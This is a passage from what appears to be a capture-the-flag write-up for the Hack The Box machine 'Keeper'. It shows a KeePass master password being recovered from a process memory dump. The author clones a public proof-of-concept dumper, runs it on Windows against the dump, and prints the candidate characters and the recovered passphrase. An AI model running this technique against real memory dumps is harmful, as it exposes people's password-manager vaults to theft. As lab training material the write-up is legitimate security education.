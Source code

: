     %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%e
    %%%%%%%%%%%%%%%%%
    %%%%%%%%%%%%%%%%%
    

This method is crude, but I can see the third character is likely “d”, and
then “g” then “r”. This is what the exploit POCs will do, but a bit smarter to
find the most likely key.

#### Exploit from Windows

From a Windows VM, the exploit is rather straight forward. I’ll clone the repo
to my host and go into that directory (if `git` isn’t installed in your
Windows VM, you can also download the ZIP from GitHub and unzip it):

    
    
    PS C:\Users\0xdf > git clone https://github.com/vdohney/keepass-password-dumper
    Cloning into 'keepass-password-dumper'...
    remote: Enumerating objects: 111, done.
    remote: Counting objects: 100% (111/111), done.
    remote: Compressing objects: 100% (79/79), done.
    remote: Total 111 (delta 61), reused 67 (delta 28), pack-reused 0
    Receiving objects: 100% (111/111), 200.08 KiB | 3.45 MiB/s, done.
    Resolving deltas: 100% (61/61), done.
    PS C:\Users\0xdf > cd .\keepass-password-dumper\
    

Then I just need to `dotnet run [dump]`:

    
    
    PS C:\Users\0xdf\keepass-password-dumper > dotnet run Z:\hackthebox\keeper-10.10.11.227\KeePassDumpFull.dmp
    ...[snip]...
    Password candidates (character positions):
    Unknown characters are displayed as "●"
    1.:     ●
    2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
    3.:     d,
    4.:     g,
    5.:     r,
    6.:     ø,
    7.:     d,
    8.:      ,
    9.:     m,
    10.:    e,
    11.:    d,
    12.:     ,
    13.:    f,
    14.:    l,
    15.:    ø,
    16.:    d,
    17.:    e,
    Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
    